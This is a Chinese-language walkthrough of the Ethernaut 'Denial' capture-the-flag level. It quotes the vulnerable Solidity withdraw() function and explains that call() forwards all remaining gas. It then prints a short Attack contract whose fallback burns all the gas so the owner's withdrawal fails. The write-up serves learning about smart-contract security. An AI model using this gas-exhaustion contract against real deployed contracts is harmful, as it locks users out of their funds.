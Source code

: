 # Denial

## Reference
[Denial](https://ethernaut.openzeppelin.com/level/20)

[Denial.sol](https://github.com/yuhuajing/ethernaut-book/blob/main/src/20-Denial/Denial.sol)

## 目标
作为当前合约的 `partner`, 让 `owner` 地址无法成功退款

## 分析
### withdraw
```solidity
    function withdraw() public {
    uint256 amountToSend = address(this).balance / 100;
    // perform a call without checking return
    // The recipient can revert, the owner will still get their share
    partner.call{value: amountToSend}("");
    // payable(partner).transfer(amountToSend);
    payable(owner).transfer(amountToSend);
    // keep track of last withdrawal time
    timeLastWithdrawn = block.timestamp;
    withdrawPartnerBalances[partner] += amountToSend;
}
```
1. `partner` 通过 `call()` 退款，call发送当前EV吗环境全部剩余的 `gas`
2. `owner` 通过 `transfer()` 退款，`transfer()/send()` 仅发送 `2300 gas`, `transfer()` 在转账失败时会 `revert` 整笔交易
### Denial
1. 作为 `partner`，在 `owner` 退款时会通过 `call` 接收转账
2. `call()` 转账方式会将 `caller` 的全部 `gas` 发送到新的 `EVM` 执行环境
3. 作为 `partner`,可以在 `fallback()` 函数中消耗完全部的 `gas` ,此时，整笔交易会因为没有多余 `gas` 失败
```solidity
contract Attack {
    bytes32 tt;
    fallback() external payable {
        while (gasleft() > 0) {
            tt = keccak256(abi.encodePacked(msg.sender, tt));
        }
    }
}
```

1. `Attack` 合约的 `fallback()` 函数一直执行 `keccak256` 操作消耗 `gas` ,直至消耗完全部 `gas`
